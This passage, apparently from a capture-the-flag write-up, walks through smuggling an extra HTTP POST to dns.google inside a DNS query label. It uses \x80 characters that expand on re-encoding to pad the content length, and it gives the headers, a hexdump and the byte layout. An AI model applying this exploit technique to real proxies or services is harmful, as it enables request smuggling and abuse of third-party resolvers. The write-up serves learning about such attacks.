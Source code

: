 ## Building the Full Request

This part is a bit tricky so try to stay focused!  

The request needs to be valid and include the following:
* Bogus query that contains a number of `\x80` characters and the extra HTTP payload
  * We chose `\x80` arbitrarily as it's not a valid ASCII character, any non-ASCII character will work
  * The HTTP payload has to be inside the DNS label since it's the only data that gets passed to Google
  * There has to be an exact number of  `\x80` characters so that the encoded payload will expand to fit the content length
* A query to a domain we control

Let's start with the 2nd query since it's the easiest. We'll take `my.server.com` as an example to a domain we control.  
We can generate it using `build_dns_query(['my', 'server', 'com'])` and take the HTTP headers from the challenge code (binary data in hexdump):
```
POST /dns-query HTTP/1.1
Host: dns.google
Accept: application/dns-message
Content-Type: application/dns-message
Content-Length: 31

00000000: 00 00 01 00 00 01 00 00  00 00 00 00 02 6D 79 06  .............my.
00000010: 73 65 72 76 65 72 03 63  6F 6D 00 00 01 00 01     server.com.....
```

That will be our payload. Now we need to fit it into a DNS query inside one of the labels.  
The payload is 169 bytes long, so we need to have 169 bytes of `\x80` prior to it. 
Actually, the DNS label is going to be `decode()`-d prior to building a new request, and we need the `\x80` in the decoded version, so that when it will be encoded again, they will expand to `b'\xc2\x80'`.  
So we actually need to put 169 pairs of `b'\xc2\x80'` into the request. They will be decoded to 169 `\x80` bytes, used to build a new query and encoded again.  
The length of a single element in the DNS query has to be under 192 bytes (technically under 64, but it's usually not enforced), so we decided to split these bytes into a number of ~90 bytes chunks.  
One last thing, the DNS parser parses the packet in the encoded form, as bytes, so it will see a bunch of `b'\xc2\x80'` bytes.  
For an extra of 169 bytes we need 169 pairs of `b'\xc2\x80'`, so that's 338 bytes - 2 chunks of 180+158 bytes.  
The full request will look something like this:
```
[header - \x00\x00\x01...] [180] [b'\xc2\x80' * 90] [158] [b'\xc2\x80' * 79] [169] [payload - 169 bytes] [footer - \x00\x00...]
```
Now the server will parse this request and get a DNS label of
```
[b'\xc2\x80' * 90, b'\xc2\x80' * 79, payload]
```
The elements in the label are decoded to become `['\x80' * 90, '\x80' * 79, payload]`  
and the new query is prepared:
```
[header] [90] ['\x80' * 90] [79] ['\x80' * 79] [169] [payload] [footer]
   12     1        90        1         79        1      169       5
```
